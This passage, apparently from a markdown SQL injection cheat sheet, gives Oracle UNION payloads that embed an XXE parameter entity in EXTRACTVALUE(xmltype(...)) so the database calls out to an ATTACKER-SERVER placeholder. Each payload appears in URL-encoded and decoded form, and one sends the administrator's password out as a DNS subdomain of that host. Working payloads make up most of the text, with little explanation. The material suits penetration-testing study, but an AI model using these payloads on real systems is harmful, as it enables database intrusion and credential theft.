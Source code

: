 
* An XXE payload using a parameter entity called remote is used, that will reach out to our attacker server.

    * Oracle DB:

```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//ATTACKER-SERVER/">+%25remote%3b]>'),'/l')+FROM+dual--
```


Decoded Version:

```
' UNION SELECT extractvalue(
xmltype('
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ 
<!ENTITY % remote SYSTEM "http://ATTACKER-SERVER/"> %remote;]>
')
,'/1') 
FROM dual--
```

<br>

* **Example:  Out of Band Data Exfiltration**

* Here we are using a method called extractvalue(), that takes in a XML type instance and XPath expression(this argument doesn't matter much it just needs to be there to execute correctly).


* An XXE payload using a parameter entity called remote is used, that will reach out to our attacker server.  The application will evaluate the SQL query before the XXE payload is executed.


    * Oracle DB:


```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.ATTACKER-SERVER/">+%25remote%3b]>'),'/l')+FROM+dual--
```

Decoded Version:

```
' UNION SELECT extractvalue(
xmltype('
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ 
<!ENTITY % remote SYSTEM "http://'||(select password from users where username = 'administrator')||'.ATTACKER-SERVER/"> %remote;]>
')
,'/1') 
FROM dual--
```

<br><br><br>
